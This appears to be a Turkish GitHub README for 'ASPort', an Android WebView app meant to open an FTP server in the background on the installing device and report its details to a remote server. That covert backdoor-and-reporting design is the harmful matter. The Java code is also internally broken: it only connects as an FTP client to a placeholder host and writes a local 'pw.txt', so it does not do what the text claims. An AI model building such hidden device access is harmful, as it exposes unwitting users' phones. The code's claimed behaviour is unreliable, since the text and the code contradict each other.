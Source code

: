 # ASPort
AS için arkaplan port açıcı
Wevbiew uygulaması olan, arkaplanda indirildiği cihazda FTP sunucusu açan ve sunucu bilgilerini istenen sunucudaki txt dosyasına kaydeden program için kod.

1. Android Studio'da yeni bir proje oluşturun ve `WebViewExample` gibi bir isim verin.

2. `activity_main.xml` dosyasını açın ve aşağıdaki içeriği ekleyin:

```xml
<?xml version="1.0" encoding="utf-8"?>
<WebView
    xmlns:android="http://schemas.android.com/apk/res/android"
    android:id="@+id/webview"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
/>
```

3. `MainActivity.java` dosyasını açın ve aşağıdaki kodu ekleyin:

```java
import android.os.Bundle;
import android.webkit.WebSettings;
import android.webkit.WebView;
import android.webkit.WebViewClient;

import androidx.appcompat.app.AppCompatActivity;

import org.apache.commons.net.ftp.FTP;
import org.apache.commons.net.ftp.FTPClient;

import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.util.Random;

public class MainActivity extends AppCompatActivity {

    private WebView webView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        webView = findViewById(R.id.webview);
        webView.setWebViewClient(new WebViewClient());

        WebSettings webSettings = webView.getSettings();
        webSettings.setJavaScriptEnabled(true);

        // WebView'e yüklenecek URL'i belirtin
        webView.loadUrl("http://www.example.com");

        // WebView yüklendikten sonra FTP sunucusunu başlatın
        webView.setWebViewClient(new WebViewClient() {
            @Override
            public void onPageFinished(WebView view, String url) {
                startFTPServer();
            }
        });
    }

    private void startFTPServer() {
        new Thread(new Runnable() {
            @Override
            public void run() {
                String ftpServerAddress = "FTP_SERVER_ADDRESS";
                int ftpServerPort = 21;
                String ftpUsername = "FTP_USERNAME";
                String ftpPassword = "FTP_PASSWORD";

                FTPClient ftpClient = new FTPClient();
                try {
                    ftpClient.connect(ftpServerAddress, ftpServerPort);
                    ftpClient.login(ftpUsername, ftpPassword);
                    ftpClient.enterLocalPassiveMode();
                    ftpClient.setFileType(FTP.BINARY_FILE_TYPE);

                    // Rastgele bir 6 haneli kod oluşturun
                    String deviceCode = generateDeviceCode();

                    // Sunucuya cihaz bilgilerini yazdırın
                    BufferedWriter writer = new BufferedWriter(new FileWriter("pw.txt", true));
                    writer.write(deviceCode + ": " + webView.getUrl());
                    writer.newLine();
                    writer.close();
                } catch (IOException e) {
                    e.printStackTrace();
                } finally {
                    if (ftpClient.isConnected()) {
                        try {
                            ftpClient.logout();
                            ftpClient.disconnect();
                        } catch (IOException e) {
                            e.printStackTrace();
                        }
                    }
                }
            }
        }).start();
    }

    private String generateDeviceCode() {
        Random random = new Random();
        int randomNumber = random.nextInt(900000) + 100000; // 100000 ile 999999 arasında rastgele bir sayı
        return String.valueOf(randomNumber);
   

 }
}
```

4. `FTP_SERVER_ADDRESS`, `FTP_USERNAME` ve `FTP_PASSWORD` değişkenlerini kendi FTP sunucu bilgilerinizle değiştirin.

5. Projenizi derleyin ve çalıştırın. Uygulama, WebView ile belirtilen URL'i yükleyecektir. WebView yüklendikten sonra arka planda FTP sunucusu başlatılacak ve cihazın bilgileri sunucunuza gönderilecektir. Bu bilgileri `pw.txt` dosyasında görebilirsiniz.

Önemli Not: FTP kullanımı, güvenlik açıklarına neden olabilir. Bu kod örneği yalnızca konsepti göstermek amacıyla verilmiştir. Gerçek uygulamalarda daha güvenli veri iletişim yöntemleri (örneğin, HTTPS üzerinden sunucuya veri gönderme) kullanmanızı öneririm. Ayrıca, sunucunuzda güvenlik önlemlerini sağlamak için gerekli adımları atmaktan emin olun.
